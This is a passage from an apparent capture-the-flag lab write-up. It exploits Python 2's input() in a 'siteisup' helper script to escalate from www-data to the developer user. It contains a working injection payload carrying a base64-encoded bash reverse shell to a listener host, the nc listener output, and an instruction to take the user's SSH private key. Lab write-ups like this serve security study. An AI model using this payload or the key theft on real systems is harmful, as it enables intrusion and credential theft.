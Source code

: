 Check out the developer user's home directory to see a couple of files www-data can read and execute:
```bash
www-data@updown:/home/developer/dev$ ls
siteisup  siteisup_test.py
```
```python
# siteisup_test.py
import requests

url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
        print "Website is up"
else:
        print "Website is down"
```
Running ```siteisup``` shows that it's just a wrapper for calling the python script. Since this is python2 (look at the print statements), the input function is going to be vulnerable to command injection.
```bash
$ ./siteisup
Welcome to 'siteisup.htb' application
# again the base64 is just an encoded rev shell payload since putting it in there normally wasn't playing nice
Enter URL here:eval("__import__('os').system('echo -n YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNC85MDAyICAwPiYx | base64 -d | bash')")
```
```bash
# listener on attacking machine
$ nc -lvnp 9002
listening on [any] 9002 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.177] 47680
developer@updown:/home/developer/dev$ id
uid=1002(developer) gid=33(www-data) groups=33(www-data)
```
Now go ahead and grab the private key from developers ```.ssh``` directory to get a nice ssh session